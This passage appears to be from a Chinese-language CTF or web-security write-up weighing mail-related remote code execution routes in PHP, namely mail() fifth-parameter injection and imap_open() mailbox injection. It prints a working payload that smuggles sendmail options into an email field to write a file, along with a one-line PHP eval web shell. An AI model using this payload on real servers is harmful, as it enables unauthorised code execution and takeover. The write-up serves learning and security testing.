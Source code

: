 为进一步确定方向和攻击点，我们看一下邮箱处需要的参数

[![](https://p1.ssl.qhimg.com/t015d6646a96de79ea2.png)](https://p1.ssl.qhimg.com/t015d6646a96de79ea2.png)

我们再看上述3种和邮件有关的RCE

首先是

```
PHP mail()
```

我们知道其参数为

```
bool mail(
    string $to,
    string $subject,
    string $message [,
    string $additional_headers [,
    string $additional_parameters ]]
)
```

这里的界面应该类似于写邮件，例如

[![](https://p4.ssl.qhimg.com/t015d8e17ca3e333469.png)](https://p4.ssl.qhimg.com/t015d8e17ca3e333469.png)

而漏洞点即在于mail函数的第五个参数没有正确过滤，我们可以通过如下方式进行RCE

```
email=
-sky@skysec.top -OqueueDirectory=/ -Xskyskysky.php
title=
&lt;?php eval($_GET[sky]);?&gt;
```

而这里我们的参数为

```
email，sign，server
```

功能为邮箱授权，感觉有些对不上号，我们再看看`imap_open()`

```
imap_open ( string $mailbox , string $username , string $password [, int $options = 0 [, int $n_retries = 0 [, array $params = NULL ]]] ) : resource
```

漏洞点在于第一个参数`$mailbox`<br>
详细解析可见

```
https://lab.wallarm.com/rce-in-php-or-how-to-bypass-disable-functions-in-php-installations-6ccdbf4f52bb
```


